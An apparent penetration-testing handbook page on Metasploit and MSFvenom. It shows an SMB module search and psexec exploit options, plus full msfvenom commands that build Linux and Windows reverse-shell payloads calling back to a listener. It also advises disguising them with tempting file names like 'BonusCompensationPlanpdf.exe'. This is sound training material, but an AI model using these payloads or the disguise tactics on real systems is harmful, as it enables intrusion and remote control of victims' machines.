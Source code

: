 ```yaml
---
title: "Payloads Creation"
type: handbook
weight: 3
---
```


## Automating Payloads & Delivery with Metasploit

### Practicing with Metasploit

#### Searching Within Metasploit

```bash
msf6 > search smb

Matching Modules
================

#    Name                                                          Disclosure Date    Rank   Check  Description
  -       ----                                                     ---------------    ----   -----  ---------- 
 41   auxiliary/scanner/smb/smb_ms17_010                                               normal     No     MS17-010 SMB RCE Detection
 42   auxiliary/dos/windows/smb/ms05_047_pnp                                           normal     No     Microsoft Plug and Play Service Registry Overflow
 43   auxiliary/dos/windows/smb/rras_vls_null_deref                   2006-06-14       normal     No     Microsoft RRAS InterfaceAdjustVLSPointers NULL Dereference
 44   auxiliary/admin/mssql/mssql_ntlm_stealer                                         normal     No     Microsoft SQL Server NTLM Stealer
 45   exploit/windows/smb/psexec                                      1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
 
 <SNIP>
 ```

#### Examining an Exploit's Options

```bash
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write fo
                                                    lder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

## Crafting Payloads with MSFvenom

### Practicing with MSFvenom

#### List Payloads

```bash
msfvenom -l payloads
```

#### Building A Stageless Payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

* Call MSFvenom `msfvenom` - Defines the tool used to make the payload.
* Creating a Payload `-p` - This option indicates that msfvenom is creating a payload.
* Choosing the Payload based on Architecture `linux/x64/shell_reverse_tcp ` - Specifies a Linux 64-bit stageless payload that will initiate a TCP-based reverse shell (shell_reverse_tcp).
* Address To Connect Back To `LHOST=10.10.14.113 LPORT=443 ` - When executed, the payload will call back to the specified IP address (10.10.14.113) on the specified port (443).
* Format To Generate Payload In `-f elf ` - The -f flag specifies the format the generated binary will be in. In this case, it will be an .elf file.
* Output `> createbackup.elf` - Creates the .elf binary and names the file createbackup. We can name this file whatever we want. Ideally, we would call it something inconspicuous and/or something someone would be tempted to download and execute.

##### Building a simple Stageless Payload for a Windows system

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

